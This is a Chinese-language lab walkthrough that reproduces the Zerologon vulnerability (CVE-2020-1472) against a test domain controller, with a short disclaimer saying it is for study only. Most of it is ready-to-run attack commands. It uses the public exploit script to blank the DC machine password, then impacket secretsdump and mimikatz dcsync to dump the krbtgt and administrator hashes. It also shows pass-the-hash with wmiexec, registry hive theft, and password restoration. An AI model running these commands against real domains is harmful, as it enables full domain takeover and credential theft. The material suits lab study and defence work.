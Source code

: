 # CVE-2020-1472 zerologon 复现

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**实验环境**

`环境仅供参考`
- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- 域控 : 192.168.141.154 - win 2008 R2 Datacenter
- 主机 : 192.168.141.155 - win 2008 R2 Datacenter
- kali : 192.168.141.153

---

# 环境搭建

1. 搭建域控 ffffffff0x.com 域
2. 主机加入域
3. 新建个域普通用户 test

    ![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2020-1472-zerologon复现/1.png)

---

# 漏洞检测

- [SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

查询目标 netbios 名称
- linux : nbtscan -v -h 192.168.141.154
- windows : nbtstat -A 192.168.141.154

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2020-1472-zerologon复现/2.png)

检测:
```
python3 zerologon_tester.py WIN-A5GPDCPJ7OT 192.168.141.154
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2020-1472-zerologon复现/3.png)

---

# 漏洞利用

- [dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

```
python3 cve-2020-1472-exploit.py WIN-A5GPDCPJ7OT 192.168.141.154
```

已将密码置空(这里置空的是域控所在机器的机器管理员密码，而非域控密码--->域控所在机器密码跟更改可能会影响与其他域的通信或者域控上的dns等功能)

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2020-1472-zerologon复现/4.png)

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2020-1472-zerologon复现/14.png)

使用 impacket 套件的 secretdump 获取域控上的 hash

```
./secretsdump.py ffffffff0x/WIN-A5GPDCPJ7OT\$@192.168.141.154 -just-dc -no-pass
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2020-1472-zerologon复现/5.png)

---

- mimikatz

检测
```
lsadump::zerologon /target:WIN-A5GPDCPJ7OT.ffffffff0x.com /account:WIN-A5GPDCPJ7OT$
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2020-1472-zerologon复现/9.png)

利用
```
lsadump::zerologon /target:WIN-A5GPDCPJ7OT.ffffffff0x.com /account:WIN-A5GPDCPJ7OT$ /exploit
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2020-1472-zerologon复现/10.png)

尝试使用空密码登录域管
```
lsadump::dcsync /domain:ffffffff0x.com /dc:WIN-A5GPDCPJ7OT.ffffffff0x.com /user:krbtgt /authuser:WIN-A5GPDCPJ7OT$ /authdomain:ffffffff0x /authpassword:"" /authntlm
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2020-1472-zerologon复现/11.png)

导出 hash
```
mimikatz.exe "lsadump::dcsync /domain:ffffffff0x.com /dc:WIN-A5GPDCPJ7OT.ffffffff0x.com /user:administrator /authuser:WIN-A5GPDCPJ7OT$ /authdomain:ffffffff0x /authpassword: /authntlm" >> 1.txt
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2020-1472-zerologon复现/12.png)

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2020-1472-zerologon复现/13.png)

---

# 环境恢复

已获取域控 Administrator 的 hash，使用该 hash 尝试获取机器 hash 即 MACHINE.ACC 中的 hash,plain_password_hex 选项的值

```
./secretsdump.py ffffffff0x/administrator@192.168.141.154 -hashes aad3b435b51404eeaad3b435b51404ee:a02b23f9f201e97ba7626965189c2c37
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2020-1472-zerologon复现/6.png)

使用 restorepassword 恢复 hashes
```
python3 restorepassword.py ffffffff0x/WIN-A5GPDCPJ7OT@WIN-A5GPDCPJ7OT -target-ip 192.168.141.154 -hexpass f633620959f7ebbbc2650bba35a2a309061765de1b3fa3cfb575877ec9f169fd298c4f1c6af32763396eea344d0dd5b8249022610be03ca746e4ad001c0ecb36f9e3509ce217a5969feb68c75e8e2f72a1cf5297a8de97315f0083210f296c045f46e0f42394cf2b3bfe9e56c1110527eae54e1d515a7431dbcb0e9fea850b5d49f037e3961a04a3e9bfc0a3729d05ca73078bb115e894e3710caf3ab9cb570b597c5938f5ba8e62c0ab2199ae6bcffe3fcef0b0a1564163518ac753e9a67dcc2fc388f565c30fd66712b4391a5f63a39bce5d5b71da52b4fd5e92bba4f863a92047e5a2792a883ef966f30da291408a
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2020-1472-zerologon复现/7.png)

---

有些情况不能获取到 plain_password_hex，可以通过已获取的域控 hash PTH 机器并 dump sam 文件到本地, 提取 hex 进行恢复
```
./wmiexec.py ffffffff0x/administrator@192.168.141.154 -hashes aad3b435b51404eeaad3b435b51404ee:a02b23f9f201e97ba7626965189c2c37
```

导出并下载 sam
```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
```

```
./secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2020-1472-zerologon复现/8.png)

---

或者 PTH 登录，执行下面命令重置机器密码

```
./wmiexec.py ffffffff0x/administrator@192.168.141.154 -hashes aad3b435b51404eeaad3b435b51404ee:a02b23f9f201e97ba7626965189c2c37
```

```
powershell Reset-ComputerMachinePassword
```

---

mimikatz 恢复密码
```
lsadump::postzerologon /target:192.168.141.154 /account:WIN-A5GPDCPJ7OT$
```
